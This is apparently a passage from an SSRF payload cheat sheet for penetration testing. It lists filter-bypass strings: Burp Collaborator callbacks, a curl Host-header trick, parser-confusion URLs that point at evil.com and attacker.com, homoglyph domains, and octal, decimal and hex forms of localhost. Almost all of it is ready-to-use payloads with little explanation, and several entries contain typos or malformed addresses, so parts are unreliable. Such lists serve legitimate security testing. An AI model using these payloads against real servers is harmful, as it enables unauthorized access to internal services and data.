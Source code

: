 #### **5. URL Manipulation**
- **Burp Collaborator**:
  ```bash
  If the response has a link parameter, try sending it with your Burp Collaborator.
  ```
- **Open Redirect**:
  ```bash
  https://www.hahwul.com/phoenix/ssrf-open-redirect/
  ```

#### **6. Advanced SSRF Techniques**
- **Host Header Manipulation**:
  ```bash
  curl ip -H 'HOST: localhost'
  ```
- **Subdomain Manipulation**:
  ```bash
  target.com.(aydomain has IP 127.0.0.1)
  ```
- **Special Characters**:
  ```bash
  trarget.\com/%09/myburpcollab
  trarget.\com//myburpcollab
  trarget.\com\\myburpcollab
  target.\com/%0d/myburpcollab
  redirect_uri=target.\com&redirect_uri=attacker\.com
  redirect_uri=target.\com%40myburpcollab.\com
  ```
- **URL Parser Logic**:
  ```bash
  http://evil§google.com
  http://127.1:80@127.2.2.280/
  http://127.1:80@@127.2.2.280/
  0://evil.com:80http://google.com:80/
  ```
- **Unicode Normalization**:
  ```bash
  http://gооgle.com
  http://gⓞⓞgle.cⓞm
  ```
- **Address Encoding**:
  ```bash
  http://0177.0.0.1           # Octal Representation
  http://2130706433/          # Decimal Representation
  http://0x7f.0x0.0x0.0x1/    # Hex Representation
  http://0177.0x0.0x0.0x1/    # Mixed Representation
  ```
- **Localhost Representation**:
  ```bash
  http://0/
  http://127.1/
  http://0.0.0.0/
  http://127.127.127.127/
  ```
